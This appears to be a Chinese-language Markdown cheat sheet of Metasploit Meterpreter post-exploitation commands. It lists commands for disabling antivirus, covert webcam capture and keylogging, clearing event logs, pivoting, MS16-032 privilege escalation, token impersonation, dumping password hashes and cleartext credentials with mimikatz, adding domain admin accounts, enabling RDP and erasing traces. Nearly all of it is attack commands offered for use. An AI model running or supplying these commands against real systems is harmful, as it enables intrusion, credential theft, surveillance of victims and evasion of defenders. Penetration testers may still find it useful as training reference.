

## Meterpreter

## 一、Meterpreter基本命令
	sysinfo								获取系统信息
	show_mount							查看磁盘信息
	download c:\\a.txt					下载文件
	upload	/root/a.txt					上传文件
	search -d c: -f *.txt				搜索文件
	execute -f cmd.exe -i				执行命令
	execute -f nc -nvlp 3333			执行exe文件
	execute -f -i -H					执行shell，exit可退出
	run killav							关闭杀软
	webcam_list							查看是否存在摄像头
	webcam_snap							摄像头拍照
	webcam_snap -i 1 -v false			每隔一秒拍照
	bgrun webcam 						开启摄像头
	run arp_scanner						存活主机扫描
	run domain_list_gen					获取域管理账户列表，并判断session是否在列表中
	run get_application_list			获取应用列表
	run post/windows/gather/enum_applications	获取应用列表
	bgrun service_manager -l			查看服务
	run post/windows/gather/checkvm 	是否为虚拟机
    keyscan_start						开启键盘记录
    keyscan_dump						导出键盘记录
    keyscan_stop						结束键盘记录
    clearev								清楚日志
    load python 						加载插件python
	python_execute "print ('hello world!')"
	python_execute "import os; cd = os.getcmd()" -r cd

#### 二、迁移进程
	ps 					获取目标机正在运行的进程
	getpid				命令查看Meterpreter Shell的进程号
	migrate 1016		迁移进程
	kill 123			结束进程

	run post/windows/manage/migrate 系统会自动寻找合适的进程然后迁移

#### 三、添加路由、开启sockes
	getproxy			获取系统代理信息
	route				查看当前网络
	background 			当前Meterpreter终端隐藏在后台
	route add 192.168.1.1/24 1                  手动添加路由
	route print			查看路路由

	use auxiliary/server/socks5
	use auxiliary/server/socks4a
	run
    netstat -pantu | grep 1080

#### 四、权限提升
	run enum_logged_on_users  -l        当前用户
    run post/windows/gather/enum_logged_on_users 	查看登录的用户
	getprivs                            查看当前权限
	getuid								查看当前用户名
    getsystem                           权限提升

    MS16-032权限提升
    use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
    set session 1
    run

    https://github.com/SecWiki/windows-kernel-exploits

#### 五、图形界面
    bgrun vnc                           VNC
    screenshot/screengrab				截屏
    run post/windows/manage/enable_rdp  开启3389
    run getgui -e 						开启3389
    portfwd add -l 3389 -r 127.0.0.1 -p 3389    端口转发
    run getgui -e -f 8080				3389端口转发8080

#### 六、令牌窃取
    use incognito
    list_tokens -u                         查看令牌
    impersonate_token VLONG\\Administrator

#### 七、获取密码
    抓取密码
    hashdump

    嗅探密码
    use auxiliary/sniffer/psnuffle
    set pcapfile /root/a.pcap
   	run

    add_user username password -h IP    添加用户
    add_group_user "Domain Admins" username -h IP
    
    channel -l                          查看
    read 8                              shell
    write 8                             后台执行命令
    read 8                              查看执行结果

    获取密码
    run hashdump  
    run windows/gather/smart_hashdump   开启了UAC获取
    run post/windows/gather/hashdump    获取密码hash 
    
    load mimikatz                       加载模块  
    msv                                 获取hash值
    ssp                                 获取明文密码  
    wdigest                             读取内存中存放的明文  
    kerberos 
    
    run credcollect                     搜集目标主机上的hash凭证

    run getgui -u user -p pass                  存在外网ip地址
    run multi_console_command -rc /root/.msf3/logs/scripts/getgui/clear_up_20180912.2342.rc   清除痕迹

   